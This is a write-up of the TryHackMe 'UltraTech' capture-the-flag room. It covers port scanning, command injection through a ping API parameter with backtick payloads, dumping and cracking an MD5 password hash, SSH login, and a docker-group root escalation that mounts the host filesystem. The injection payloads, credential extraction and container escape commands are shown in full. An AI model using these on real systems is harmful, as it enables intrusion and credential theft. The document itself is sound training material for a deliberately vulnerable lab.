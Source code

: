 ```yaml
---
clayout: ctf
title: UltraTech
type: TryHackMe
date: 2025-09-27
level: Easy
icon: /ctf/tryhackme/ultra-tech/icon-room.png
image: /ctf/tryhackme/ultra-tech/icon-room.png
description: UltraTech
ctf-link: https://tryhackme.com/room/ultratech1
---
```


## Challenge Overview

UltraTech is a **web application** challenge focused on exploiting a vulnerable API endpoint through **command injection** to gain initial access. The challenge involves a Docker environment where the goal is to escalate privileges to root by leveraging Docker group membership.

## Enumeration

### Nmap Scan

```bash
nmap -sCV -p- -oN nmap 10.10.52.175
```

**Scan Results:**

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## Web Enumeration

When accessing `http://10.10.52.175:8081/`, we discover the **UltraTech API** page.

![UltraTech API](/ctf/tryhackme/ultra-tech/api.png)

Browsing to `http://10.10.52.175:31331/` exposes the **UltraTech** home page.

![UltraTech Home](/ctf/tryhackme/ultra-tech/home.png)

Looking at the `robots.txt` file, we can see a reference to a hidden file called `utech_sitemap.txt`.

```txt
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

Navigating to `http://10.10.52.175:31331/utech_sitemap.txt` reveals a sitemap file.

```txt
/
/index.html
/what.html
/partners.html
```

Looking at the sitemap, we can see a hidden page called `partners.html` which shows us a login page.

![UltraTech Partners](/ctf/tryhackme/ultra-tech/partners.png)

### Source Code Analysis

Examining the page source reveals a JavaScript file (`api.js`) that handles authentication and periodically sends requests to the `ping?ip=` endpoint every 10 seconds.

```bash
PING 10.10.52.175 (10.10.52.175) 56(84) bytes of data. 64 bytes from 10.10.52.175: icmp_seq=1 ttl=64 time=0.015 ms --- 10.10.52.175 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

## Exploitation

### Command Injection Vulnerability

The `ip` parameter is vulnerable to **command injection** because user input is directly passed to the system command without proper sanitization.

**Testing the vulnerability:**

```url
http://10.10.52.175:8081/ping?ip=%60ls%60;
```

**Response:**

```bash
ping: utech.db.sqlite: Name or service not known
```

The error message reveals the presence of a `utech.db.sqlite` file, confirming that our injected command (`ls`) was executed successfully.

### Extracting Database Contents

**Reading the SQLite database:**

```url
http://10.10.52.175:8081/ping?ip=%60cat%20utech.db.sqlite%60;
```

**Response:**

```bash
f357a0c52799563c7c7b76c1e7543a32
```

This reveals an MD5 hash that appears to be associated with the `r00t` user account.

### Hash Cracking

**Cracking the MD5 hash with Hashcat:**

```bash
hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt
```

**Cracked result:**

```bash
f357a0c52799563c7c7b76c1e7543a32:n100906
```

The password for the `r00t` user is `n100906`.

### Initial Access

**SSH login with discovered credentials:**

```bash
ssh r00t@10.10.52.175
```

**Verifying access:**

```bash
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We have successfully gained initial access as the `r00t` user.

## Privilege Escalation (r00t → root)

### Docker Group Privilege Escalation

**Checking user groups:**

```bash
r00t@ultratech-prod:~$ groups
r00t docker
```

The `r00t` user is a member of the `docker` group, which provides significant privileges for privilege escalation.

**Why Docker group membership is dangerous:**

Members of the `docker` group can execute Docker commands without `sudo`, which allows them to:

- Run containers with elevated privileges
- Mount host filesystems into containers
- Access the host system through container escape techniques

**Exploiting Docker group membership:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

**Result:**

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

::: details Command explanation

- `docker run`: Creates and runs a new container
- `-v /:/mnt`: Mounts the entire host root filesystem (`/`) to `/mnt` inside the container
- `--rm`: Automatically removes the container when it exits
- `-it`: Interactive terminal mode
- `bash`: The container image to use
- `chroot /mnt sh`: Changes the root directory to the mounted filesystem and spawns a shell

:::

> [!IMPORTANT] Final flag
> `/root/.ssh/id_rsa`
